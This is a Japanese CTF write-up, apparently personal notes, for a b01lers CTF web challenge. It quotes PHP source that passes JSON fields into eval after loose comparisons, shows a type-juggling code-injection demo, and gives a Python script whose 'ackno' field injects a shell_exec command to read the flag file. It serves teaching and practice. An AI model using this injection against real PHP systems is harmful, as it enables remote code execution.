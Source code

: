 # 概要

# writeup
##
https://born2scan.github.io/2020/10/05/Bo1lersCTF.html#next-gen-networking  
- **entrypoint**  
以下のソースが与えられる。  
```php
<?php
    function get_data() {
        if(!isset($_POST["packet"])){
            return "<p>Error: packet not found</p>";
        }

        $raw_packet = $_POST["packet"];
        $packet = json_decode($raw_packet);
        if($packet == null) {
            return "<p>Error: decoding packet</p>";
        }

        if($packet->version != 6.5) {
            return "<p>Error: wrong packet version</p>";
        }

        $calculated_ihl = strlen($packet->version) + strlen(strval($packet->len)) + strlen(strval($packet->ttl)) + strlen(strval($packet->seqno)) + strlen(strval($packet->ackno)) + strlen($packet->algo) + 64;
        $calculated_ihl = $calculated_ihl + strlen(strval($calculated_ihl));
        if($packet->ihl != $calculated_ihl or $packet->ihl > 170) {
            return "<p>Error: wrong header size</p>";
        }

        if($packet->len != strlen($raw_packet)) {
            return "<p>Error: mismatched packet size</p>";
        }

        if($packet->ttl - 1 != 0) {
            return "<p>Error: invalid ttl</p>";
        }

        if($packet->ackno != $_COOKIE["seqno"] + 1) {
            return "<p>Error: out of order packet</p>";
        }

        if($packet->algo != "sha256"){
            return "<p>Error: unsupported algorithm</p>";
        }

        $checksum_str = "\$checksum = hash(\"$packet->algo\", strval($packet->ihl + $packet->len + $packet->ttl + $packet->seqno + $packet->ackno));";
        eval($checksum_str);

        if($packet->checksum != $checksum) {
            return "<p>Error: checksums don't match</p>";
        }

        $file_name_hash = hash("md5", microtime());
        $file_name = "sent/".$file_name_hash.".packet";
        $packet_file = fopen($file_name, "w") or die("Unable to open packet file");
        fwrite($packet_file, $packet->data);
        fclose($packet_file);

        return "<h1>Packet data written</h1><div><a href=\"".$file_name."\">".$file_name_hash.".packet</a></div>";
    }
?>

<!DOCTYPE html>
<html>
    <head>
        <title>Send Packet.</title>
        <link rel="stylesheet" href="/style.css"/>
        <link rel="stylesheet" href="/tron.css"/>
    </head>
    <body>
        <div id="main-wrapper">
            <div class="content-page">
                <?php echo get_data(); ?>
            </div>
        </div>
    </body>
</html>
```
以下のevalが使われている部分が脆弱っぽそう。上で`!=`という弱い比較をしているのでType Jugglingできるとわかる。  
```php
        $checksum_str = "\$checksum = hash(\"$packet->algo\", strval($packet->ihl + $packet->len + $packet->ttl + $packet->seqno + $packet->ackno));";
        eval($checksum_str);
```
例えば`$packet->ttl`の`if($packet->ttl - 1 != 0) {`の部分で以下のように再現すると任意コードを実行できる。  
https://sandbox.onlinephpfunctions.com/  
でhash関数が使える5.1.2以降かつ`$ttl-1`の部分でWarningが出ないちょっと低めのバージョンで実行する。  
```php
$ttl = "1 ));echo 'aaaaaaaaa';//";  // 先頭に1と書いてそのあとに数字以外の文字列を書いておけば1と変換される
$algo = "sha256";

if($ttl - 1 != 0) echo "error!"."\n";

$checksum_str = "\$checksum = hash(\"$algo\", strval($ttl));";
echo $checksum_str."\n";

eval($checksum_str);
echo $checksum;

// 出力
// $checksum = hash("sha256", strval(1 ));echo 'aaaaaaaaa';//));
// aaaaaaaaa6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b
```
writeupでは以下のようにて`if($packet->ackno != $_COOKIE["seqno"] + 1) {`の部分にInjectしていた。  
```php
$ackno = "1abc";
if ($ackno == "0abc" + 1) {
    echo "PWNED";
}

$packet->ackno = "1)); /*EXPLOIT_CODE*/ echo((1"
```
- **payload**  
```python
import json

import requests

headers = {
    'Connection': 'keep-alive',
    'Accept': '*/*',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
}

packet = {
    'version' : 6.5,
    'len' : 258,
    'ttl' : 1,
    'seqno' : 1,
    'ackno' : '1));$packet->data = shell_exec("cat ./sent/flag.packet.php");echo((1',
    'algo' : 'sha256',
    'ihl' : 149,
    'checksum' : '612111a352a571cbed3927ec6f74948849bcc9fe8489bf4f0d6235afdc0a4ad7',
    'data' : 'wow'
}

data = {
  'packet': json.dumps(packet),
}

response = requests.post('http://chal.ctf.b01lers.com:3002/packets/send.php', headers=headers, data=data, cookies={'seqno' : '0as'}, verify=False)
response = response.text
print(response)
```
## 
- **entrypoint**  
- **payload**  
##
- **entrypoint**  
- **payload**  
##
- **entrypoint**  
- **payload**  
##
- **entrypoint**  
- **payload**  

# メモ
https://www.hamayanhamayan.com/entry/2020/08/09/193357  
